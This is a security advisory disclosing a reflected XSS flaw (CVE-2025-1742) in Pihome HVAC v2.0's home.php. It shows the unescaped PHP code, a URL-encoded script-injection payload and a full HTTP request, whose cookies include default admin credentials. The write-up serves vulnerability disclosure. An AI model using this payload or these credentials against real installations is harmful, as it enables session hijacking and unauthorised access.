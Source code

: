# Cross Site Scripting in Pihome HVAC v2.0 in home.php

### Title: Cross Site Scripting in Pihome HVAC v2.0 in home.php
### Affected Component: /home.php
### CWE: CWE-79 (Cross Site Scripting)
### CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:L/VA:N/SC:N/SI:N/SA:N/E:X/CR:X/IR:X/AR:X/MAV:X/MAC:X/MAT:X/MPR:X/MUI:X/MVC:X/MVI:X/MVA:X/MSC:X/MSI:X/MSA:X/S:X/AU:X/R:X/V:X/RE:X/U:X
### CVE: [CVE-2025-1742](https://www.cve.org/CVERecord?id=CVE-2025-1742)
### VulDB: [VDB-297830](https://vuldb.com/?id.297830)


### Vendor homepage:
[https://github.com/pihome-shc/pihome](https://github.com/pihome-shc/PiHomeHVAC)


### Setup for getting the PoC to Work
Setup the project and then visit the following url `<url>/home.php?page_name=onetouchfq8nd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eechcc`



### Impact:
The web application is vulnerable to XSS attacks within the home.php. Attackers can exploit this vulnerability by injecting malicious payload in the url and steal cookies if the cookie flags are not set properly. 


The code below shows (home.php from line 26) that the user input is put into the html source without sanitation. This is a high risk vulnerability.

```php
	if(isset($_GET['page_name'])) {
        $page_name = $_GET['page_name'];
} else {
        $page_name = "homelist";
}

include("header.php");

echo '<div class="container-fluid">
	<br>
	<input type="hidden" id="page_link" value="'.$page_name.'">
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious input and inject it into the url. For example, 
submitting the payload `<url>/home.php?page_name=onetouchfq8nd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eechcc` triggers the alert box. This demonstrates the successful execution of the injection within the application.

#### HTTP Request:
```
GET /home.php?page_name=onetouchfq8nd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eechcc HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=a0f1f07c9cbe1f29023c0803056ddc07; user_login=admin; pass_login=pihome; maxair_login=a0f1f07c9cbe1f29023c0803056ddc07; PiHomeLanguage=en
Upgrade-Insecure-Requests: 1
Referer: http://127.0.0.1:8888/home.php
Sec-CH-UA: "Google Chrome";v="133", "Not=A?Brand";v="8", "Chromium";v="133"
Sec-CH-UA-Platform: "Linux"
Sec-CH-UA-Mobile: ?0
Content-Length: 0


```

### Proof with Screenshot:
![image](./assets/pihomehvac-xss-home.png)


## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)